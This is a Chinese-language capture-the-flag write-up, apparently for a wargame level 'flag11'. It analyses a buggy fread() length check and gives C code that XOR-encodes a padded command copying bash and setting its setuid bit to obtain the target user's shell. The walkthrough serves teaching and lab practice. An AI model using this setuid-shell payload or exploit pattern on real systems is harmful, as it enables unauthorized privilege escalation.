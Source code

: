 `process()`函数内前面的异或反向处理非常简单，不再表述。最开始将目光聚焦于下面一段代码：

``` c
if(fread(buf, length, 1, stdin) != length) {
	err(1, "fread length");
}
process(buf, length);
```

但是发现`fread()`的第二、三个参数的值有些别扭，在这种情况下，它的返回值只能是1或0，所以length就只能是1了。所以我们就可以执行一个字母的命令，这可以通过增加`$PATH`变量、然后链接来实现命令执行。但一个问题是只写入一个字母，连字符串结束符`\0`都不能插入，所以只能多次尝试，以期栈上的后一个字节正好是`0x00`。

上面的方法过于麻烦，所以转而看else中的代码，只是要求输入长度大于1024，那么我们就直接在命令后填充无用字节就可以。实现程序：

``` c
//code.c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int main() {
	char str[1025] = "cp /tmp/bash /home/flag11/;chmod +s /home/flag11/bash;";
	for (int i = strlen(str); i < 1025; i++) {		
		str[i] = 0x0;
	}
	int length = 1025;
	unsigned int key = length & 0xff;

	char c;
	for (int i = 0; i < length; i++) {
		c = str[i];
		str[i] ^= key;
		key -= c;
	}

	//FILE *f = fopen("/tmp/flag11", "wb");
	fprintf(stdout, "Content-Length: %d\n", length);
	for (int i = 0; i < length; i++) {
		fputc(str[i], stdout);
	}
	//fclose(f);
	return 0;
}
```

仍然打算采用我们之前的获取shell套路，设置好`TEMP`的环境变量之后执行程序：

![](level11_3.png)
